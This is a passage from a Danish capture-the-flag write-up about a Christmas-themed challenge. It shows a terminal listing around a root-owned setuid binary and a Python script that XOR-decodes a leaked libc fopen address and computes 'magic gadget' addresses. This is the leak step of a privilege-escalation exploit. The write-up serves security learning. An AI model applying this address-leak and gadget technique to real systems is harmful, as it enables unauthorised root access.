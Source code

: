 På target startes programmet i én terminal, og et andet terminal-vindue åbnes for at se indholdet af den oprettede fil:

```text
nye_ønsker.wishes.encrypted
```


```shell
storenisse@nisseoenskelisten:/bulkimport_ønsker$ ls -la
total 40
drwxrwxr-x  2 storenisse storenisse  4096 Nov 20 14:05 .
drwxr-xr-x 25 root       root        4096 Nov 18 21:09 ..
---Sr-x---  1 root       storenisse 14328 Nov 19 21:55 bulkimport_ønsker.elf
-rw-r--r--  1 storenisse storenisse    13 Nov 20 14:04 nye_ønsker.wishes
-rw-rw-r--  1 root       storenisse    32 Nov 20 14:05 nye_ønsker.wishes.encrypted
-rw-r--r--  1 storenisse storenisse    51 Nov 20 14:04 nye_ønsker.wishes_exploit_using_leak_and_python_decoder
-rw-r--r--  1 storenisse storenisse    13 Nov 20 14:04 nye_ønsker.wishes_leak
storenisse@nisseoenskelisten:/bulkimport_ønsker$ xxd nye_ønsker.wishes.encrypted
00000000: c08d 65e3 6a3f 4040 4040 4040 4040 4040  ..e.j?@@@@@@@@@@
00000010: 4040 4040 4040 4040 4040 4040 4040 4040  @@@@@@@@@@@@@@@@
storenisse@nisseoenskelisten:/bulkimport_ønsker$
```

Filen kopierer over på host, og der kørers et script, der XOR med 64, og derefter udregner adressen på Magic Gadget:

```python
import os
import struct


outputFile = 'nye_ønsker.wishes.encrypted'

def GetXORed(input) :
    r = bytearray()
    for c in input :
        r.append( c ^ 64 )
    return r


while True :
    if os.path.isfile(outputFile) :
        f = open(outputFile, 'rb')
        leakedEncrypted = f.read()
        f.close()
        print(', '.join(('0x%x' % x) for x in leakedEncrypted))
        leaked = GetXORed(leakedEncrypted)
        print(', '.join(hex(x) for x in leaked))
        addressOf__fopen = struct.unpack('<q', leaked[0:8])[0]
        print("addressOf__fopen:" + hex(addressOf__fopen))
        print("Magic Gadget on Kali:" + hex(addressOf__fopen + 356512))
        print("Magic Gadget on Target:" + hex(addressOf__fopen - 166746))

        break
```
